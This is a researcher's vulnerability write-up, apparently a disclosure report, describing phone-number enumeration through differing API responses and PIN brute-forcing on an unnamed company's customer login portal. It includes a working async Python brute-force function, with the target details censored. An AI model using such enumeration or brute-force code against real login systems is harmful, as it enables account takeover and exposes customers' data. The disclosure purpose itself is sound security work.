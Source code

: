 # The research goal
## tl;dr
Found a vulnerabiility to login into any customer portal, and while exploiting the vulnerabiility for POC, I discovered an anomaly enabling me to discover all the company customers.<br>
Meaning, me being able to login into any of the company customers accounts
<br>
I will start from the second vulnerability since the explotation needs this order.


## The research
###  CWE-204: Observable Response Discrepancy
Whlile exploiting another vulnerability, I noticed I get a different response whether the input belongs to the company client, or not:<br>

* Invalid user:
```json
{'status': {'isError': True, 'code': 422, 'text': 'Invalid data', 'message': 'Invalid input'}, 'data':
{'phone_number': 'לא ניתן להתחבר עם מספר זה'}})
```
* valid user:
```json
{"status":{"isError":false,"code":200,"text":"Ok","message":"Ok"},"data":""}
```
Cool! We can detect all the company clients using enumeration!


### CWE-307: Improper Restriction of Excessive Authentication
After we found a company client, we would like to login into their account!<br>

The company didn't enforce a rate limit defense mechanism but added a custom security code.
However, they don't make sure it's used only serveral times, to I managed to use one token to the whole attack.<br>


```python
async def try_pin_code(phone_number, pin_code, session):
    company_url = "https://<company-domain>/index.php?option=<censored>&task=user.loginConfirm&format=raw"
    cookies = {
        'ea665a87302479a2702d938bca74ec90': '<CSRF_TOKEN_USED_MULTIPLE_TIMES>',
    }

    data = {
        'verification_code': pin_code,
        '<company>SecurityToken': '<censored>',
        'googleAnalyticsClientId': 'false'
    }

    async with session.post(company_url, cookies=cookies, data=data) as resp:
        try:
            json_response = await resp.json()
        except aiohttp.client_exceptions.ContentTypeError:
            text = await resp.text()
            try:
                json_response = json.loads(text)
            except json.decoder.JSONDecodeError:
                print('FAILED', text)
                return

    print(phone_number, pin_code, json_response)
    if not json_response.get('status').get('isError'):
        print('MATCH')
        exit(0)
```
 Using this brute force script, I managed to login to every company user.


# INCD Resposne
```
 תודה על פנייתך, הנושא הועבר לגורמים הרלוונטיים. 
```